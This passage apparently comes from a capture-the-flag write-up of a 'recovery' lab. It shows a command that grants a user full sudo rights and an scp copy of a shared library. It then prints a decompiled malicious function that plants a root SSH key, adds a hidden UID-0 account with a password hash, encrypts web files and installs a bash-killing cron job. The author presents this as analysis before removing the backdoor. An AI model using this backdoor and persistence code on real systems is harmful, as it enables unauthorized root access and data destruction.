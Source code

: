 echo "alex ALL=(ALL:ALL) ALL" >> /etc/sudoers;
$ sudo -l
Matching Defaults entries for alex on recoveryserver:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User alex may run the following commands on recoveryserver:
    (ALL : ALL) ALL</code></pre>
<br><br><br>

the next thing I did was to get the binary of fixutils and the library it uses, liblogging.so, to my machine.
<pre><code>scp alex@10.10.18.216:/lib/x86_64-linux-gnu/liblogging.so  /home/maxi/CTF/try\ hack\ me/medium/recovery/
alex@10.10.18.216's password: 
liblogging.so                                                                      100%   23KB  27.6KB/s   00:00</code></pre>
<br><br><br>


![2025-02-11_20-36](https://github.com/user-attachments/assets/629d6011-25c4-4111-81cf-0d4536d54457)
<br><br><br>

I will be explaining everything that the code does.

first, the code appears to be designed to create a backdoor into the system by inserting an SSH key into the authorized_keys file, which could allow an attacker remote access to the machine with root privileges. In addition, the movement of a malicious file suggests an intent to alter legitimate system behavior or execute additional code covertly, I will remove this backdoor.
<pre><code>
void LogIncorrectAttempt(char *attempt)

{
  time_t tVar1;
  FILE *pFVar2;
  char *attempt-local;
  char *ssh_key;
  FILE *authorized_keys;
  FILE *script_f;
  FILE *cron_f;
  
  system("/bin/mv /tmp/logging.so /lib/x86_64-linux-gnu/oldliblogging.so");
  tVar1 = time((time_t *)0x0);
  srand((uint)tVar1);
  pFVar2 = fopen("/root/.ssh/authorized_keys","w");
  fprintf(pFVar2,"%s\n",
          "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC4U9gOtekRWtwKBl3+ysB5WfybPSi/rpvDDfvRNZ+BL81mQYTMP bY3bD6u2eYYXfWMK6k3XsILBizVqCqQVNZeyUj5x2FFEZ0R+HmxXQkBi+yNMYoJYgHQyngIezdBsparH62RUTfmUbw GlT0kxqnnZQsJbXnUCspo0zOhl8tK4qr8uy2PAG7QbqzL/epfRPjBn4f3CWV+EwkkkE9XLpJ+SHWPl8JSdiD/gTIMd 0P9TD1Ig5w6F0f4yeGxIVIjxrA4MCHMmo1U9vsIkThfLq80tWp9VzwHjaev9jnTFg+bZnTxIoT4+Q2gLV124qdqzw5 4x9AmYfoOfH9tBwr0+pJNWi1CtGo1YUaHeQsA8fska7fHeS6czjVr6Y76QiWqq44q/BzdQ9klTEkNSs+2sQs9csUyb WsXumipViSUla63cLnkfFr3D9nzDbFHek6OEk+ZLyp8YEaghHMfB6IFhu09w5cPZApTngxyzJU7CgwiccZtXURnBmK V72rFO6ISrus= root@recovery"
         );
  fclose(pFVar2);
  system("/usr/sbin/useradd --non-unique -u 0 -g 0 security 2>/dev/null");
  system(
        "/bin/echo \'security:$6$he6jYubzsBX1d7yv$sD49N/rXD5NQT.uoJhF7libv6HLc0/EZOqZjcvbXDoua44ZP3V rUcicSnlmvWwAFTqHflivo5vmYjKR13gZci/\' | /usr/sbin/chpasswd -e"
        );
  XOREncryptWebFiles();
  pFVar2 = fopen("/opt/brilliant_script.sh","w");
  fwrite("#!/bin/sh\n\nfor i in $(ps aux | grep bash | grep -v grep | awk \'{print $2}\'); do kill $ i; done;\n"
         ,1,0x5f,pFVar2);
  fclose(pFVar2);
  pFVar2 = fopen("/etc/cron.d/evil","w");
  fwrite("\n* * * * * root /opt/brilliant_script.sh 2>&1 >/tmp/testlog\n\n",1,0x3d,pFVar2);